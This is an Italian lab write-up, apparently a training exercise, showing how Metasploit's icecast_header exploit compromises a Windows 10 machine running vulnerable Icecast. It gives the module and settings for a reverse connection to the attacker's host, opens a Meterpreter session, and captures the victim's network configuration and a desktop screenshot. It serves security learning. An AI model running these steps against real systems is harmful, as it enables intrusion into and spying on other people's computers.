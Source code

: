 1. Preparazione dell'Ambiente
Sistema Attaccante: Kali Linux con Metasploit Framework installato.
Sistema Target: Windows 10 con Icecast vulnerabile installato. Icecast è un software server di streaming audio noto per avere alcune versioni vulnerabili.
Rete Locale: La macchina Kali Linux e Windows 10 sono nella stessa rete o raggiungibili per la connessione.

2. Selezione dell'Exploit
Per sfruttare la vulnerabilità, è stato scelto l'exploit exploit/windows/http/icecast_header presente in Metasploit, noto per sfruttare una vulnerabilità nelle versioni di Icecast affette da problemi di gestione dell'header HTTP.

Comando eseguito per selezionare l'exploit:use exploit/windows/http/icecast_header

3. Configurazione dei Parametri
Una volta selezionato l'exploit, sono stati configurati i parametri necessari:

RHOSTS: Indirizzo IP della macchina target, il sistema Windows 10 con Icecast vulnerabile.
LHOST: Indirizzo IP del sistema attaccante (Kali Linux), necessario per ricevere la connessione inversa.
LPORT: Porta da utilizzare per la connessione inversa.
Comandi utilizzati per la configurazione:

set RHOSTS <IP_target>
set LHOST <IP_attaccante>

4. Lancio dell'Exploit
Una volta configurati i parametri, l'exploit è stato eseguito:exploit

L'exploit ha avuto successo, stabilendo una sessione Meterpreter con il sistema Windows 10 compromesso.

6. Operazioni su Meterpreter
Visualizzazione dell'indirizzo IP del Target
Per visualizzare l'indirizzo IP del sistema compromesso, è stato eseguito il comando:ipconfig

Questo ha restituito la configurazione di rete, permettendo di identificare l'IP della macchina target.

Cattura di uno Screenshot
Per ottenere uno screenshot del desktop della vittima, è stato utilizzato il comando:screenshot

L'immagine catturata è stata salvata nella directory di lavoro di Metasploit sul sistema attaccante. Questo ha fornito una rappresentazione visiva del desktop del sistema Windows 10 compromesso al momento dell'attacco.

6. Conclusione dell'Attacco
Dopo aver completato le operazioni richieste, la sessione Meterpreter è stata chiusa con:exit
